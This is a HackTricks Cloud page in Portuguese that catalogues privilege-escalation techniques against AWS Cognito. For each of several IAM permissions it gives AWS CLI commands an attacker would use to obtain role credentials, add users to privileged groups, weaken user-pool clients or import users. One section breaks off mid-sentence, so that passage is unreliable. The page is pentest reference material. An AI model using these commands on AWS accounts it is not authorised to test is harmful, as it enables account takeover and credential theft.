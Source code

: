 # AWS - Cognito Privesc

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Cognito

Para mais informações sobre o Cognito, verifique:

{% content-ref url="../aws-services/aws-cognito-enum/" %}
[aws-cognito-enum](../aws-services/aws-cognito-enum/)
{% endcontent-ref %}

### Coletando credenciais do Identity Pool

Como o Cognito pode conceder **credenciais de função IAM** tanto para usuários **autenticados** quanto **não autenticados**, se você localizar o **ID do Identity Pool** de um aplicativo (deve estar codificado nele), você pode obter novas credenciais e, portanto, privesc (dentro de uma conta AWS onde você provavelmente nem tinha nenhuma credencial anteriormente).

Para mais informações [**verifique esta página**](../aws-unauthenticated-enum-access/#cognito).

**Impacto potencial:** Privesc direto para a função de serviço anexada a usuários não autenticados (e provavelmente para a anexada a usuários autenticados).

### `cognito-identity:SetIdentityPoolRoles`, `iam:PassRole`

Com essa permissão, você pode **conceder qualquer função cognito** aos usuários autenticados/não autenticados do aplicativo cognito.

```bash
aws cognito-identity set-identity-pool-roles \
    --identity-pool-id <identity_pool_id> \
    --roles unauthenticated=<role ARN>

# Obtenha credenciais
## Obtenha um ID
aws cognito-identity get-id --identity-pool-id "eu-west-2:38b294756-2578-8246-9074-5367fc9f5367"
## Obtenha credenciais para esse ID
aws cognito-identity get-credentials-for-identity --identity-id "eu-west-2:195f9c73-4789-4bb4-4376-99819b6928374" ole
```

Se o aplicativo cognito **não tiver usuários não autenticados habilitados**, você também pode precisar da permissão `cognito-identity:UpdateIdentityPool` para habilitá-lo.

**Impacto potencial:** Privesc direto para qualquer função cognito.

### `cognito-identity:update-identity-pool`

Um invasor com essa permissão poderia definir, por exemplo, um Cognito User Pool sob seu controle ou qualquer outro provedor de identidade onde ele possa fazer login como uma **maneira de acessar este Cognito Identity Pool**. Em seguida, apenas **fazer login** nesse provedor de usuário permitirá que ele acesse a função autenticada configurada no Identity Pool.

```bash
# Este exemplo está usando um Cognito User Pool como provedor de identidade
## mas você pode usar qualquer outro provedor de identidade
aws cognito-identity update-identity-pool \
    --identity-pool-id <value> \
    --identity-pool-name <value> \
    [--allow-unauthenticated-identities | --no-allow-unauthenticated-identities] \
    --cognito-identity-providers ProviderName=user-pool-id,ClientId=client-id,ServerSideTokenCheck=false

# Agora você precisa fazer login no User Pool que configurou
## depois de ter o token de ID do login, continue com os seguintes comandos:

# Nesta etapa, você já deve ter um token de ID
aws cognito-identity get-id \
    --identity-pool-id <id_pool_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>

# Obtenha o identity_id da resposta do comando anterior
aws cognito-identity get-credentials-for-identity \
    --identity-id <identity_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>
```

Também é possível **abusar dessa permissão para permitir autenticação básica**:

```bash
aws cognito-identity update-identity-pool \
    --identity-pool-id <value> \
    --identity-pool-name <value> \
    --allow-unauthenticated-identities
    --allow-classic-flow
```

**Impacto potencial**: Comprometimento da função IAM autenticada configurada dentro do pool de identidade.



### `cognito-idp:AdminAddUserToGroup`

Essa permissão permite **adicionar um usuário Cognito a um grupo Cognito**, portanto, um invasor pode abusar dessa permissão para adicionar um usuário sob seu controle a outros grupos com **privilégios melhores** ou **funções IAM diferentes**:

```bash
aws cognito-idp admin-add-user-to-group \
    --user-pool-id <value> \
    --username <value> \
    --group-name <value>
```

**Impacto potencial:** Privesc para outros grupos Cognito e funções IAM anexadas a grupos de pool de usuários.

### (`cognito-idp:CreateGroup` | `cognito-idp:UpdateGroup`), `iam:PassRole`

Um invasor com essas permissões poderia **criar/atualizar grupos** com **
### `cognito-idp:CreateUserPoolClient` | `cognito-idp:UpdateUserPoolClient`

Um atacante com essa permissão poderia **criar um novo Cliente de Pool de Usuários menos restrito** do que os clientes de pool existentes. Por exemplo, o novo cliente poderia permitir qualquer tipo de método de autenticação, não ter nenhum segredo, ter a revogação de token desativada, permitir que os tokens sejam válidos por um período mais longo...

O mesmo pode ser feito se, em vez de criar um novo cliente, um **já existente for modificado**.

Na [**linha de comando**](https://docs.aws.amazon.com/cli/latest/reference/cognito-idp/create-user-pool-client.html) (ou na [**atualização**](https://docs.aws.amazon.com/cli/latest/reference/cognito-idp/update-user-pool-client.html)) você pode ver todas as opções, verifique!

```bash
aws cognito-idp create-user-pool-client \
    --user-pool-id <value> \
    --client-name <value> \
    [...]
```

**Impacto potencial:** Privesc indireto potencial para o usuário autorizado do Pool de Identidade usado pelo Pool de Usuários, criando um novo cliente que relaxa as medidas de segurança e torna possível para um atacante fazer login com um usuário que ele foi capaz de criar.

### `cognito-idp:CreateUserImportJob` | `cognito-idp:StartUserImportJob`

Um atacante pode abusar dessa permissão para criar usuários fazendo upload de um csv com novos usuários.

```bash
# Criar um novo trabalho de importação
aws cognito-idp create-user-import-job \
    --job-name <value> \
    --user-pool-id <value> \
    --cloud-watch-logs-role-arn <value>

# Usar um novo trabalho de importação
aws cognito-idp start-user-import-job \
    --user-pool-id <value> \
    --job-id <value>

# Ambas as opções acima fornecerão uma URL onde você pode enviar o arquivo CVS com os usuários a serem criados
curl -v -T "PATH_TO_CSV_FILE" \
    -H "x-amz-server-side-encryption:aws:kms" "PRE_SIGNED_URL"
```

(No caso em que você cria um novo trabalho de importação, você também pode precisar da permissão passrole do iam, eu ainda não testei).

**Impacto potencial:** Privesc direto para o papel IAM do pool de identidade para usuários autenticados. Privesc indireto para outras funcionalidades do aplicativo, sendo capaz de criar qualquer usuário.

### `cognito-idp:CreateIdentityProvider` | `cognito-idp:UpdateIdentityProvider`

Um atacante poderia criar um novo provedor de identidade para, em seguida, ser capaz de **fazer login por meio deste provedor**.

```bash
aws cognito-idp create-identity-provider \
    --user-pool-id <value> \
    --provider-name <value> \
    --provider-type <value> \
    --provider-details <value> \
    [--attribute-mapping <value>] \
    [--idp-identifiers <value>]
```

**Impacto potencial:** Privesc direto para o papel IAM do pool de identidade para usuários autenticados. Privesc indireto para outras funcionalidades do aplicativo, sendo capaz de criar qualquer usuário.

### cognito-sync:\* Análise

Esta é uma permissão muito comum por padrão em funções de Pools de Identidade do Cognito. Mesmo que um caractere curinga em uma permissão sempre pareça ruim (especialmente vindo da AWS), as **permissões concedidas não são super úteis do ponto de vista de um atacante**.

Essa permissão permite ler informações de uso de Pools de Identidade e IDs de Identidade dentro de Pools de Identidade (que não são informações sensíveis).\
Os IDs de identidade podem ter [**Datasets**](https://docs.aws.amazon.com/cognitosync/latest/APIReference/API\_Dataset.html) atribuídos a eles, que são informações das sessões (a AWS define isso como um **jogo salvo**). Pode ser possível que isso contenha algum tipo de informação sensível (mas a probabilidade é bastante baixa). Você pode encontrar na [**página de enumeração**](../aws-services/aws-cognito-enum/) como acessar essas informações.

Um atacante também pode usar essas permissões para **se inscrever em um fluxo Cognito que publica alterações** nesses datasets ou um **lambda que dispara em eventos cognito**. Eu não vi isso sendo usado, e não esperaria informações sensíveis aqui, mas não é impossível.

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **última versão do PEASS ou baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga** me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>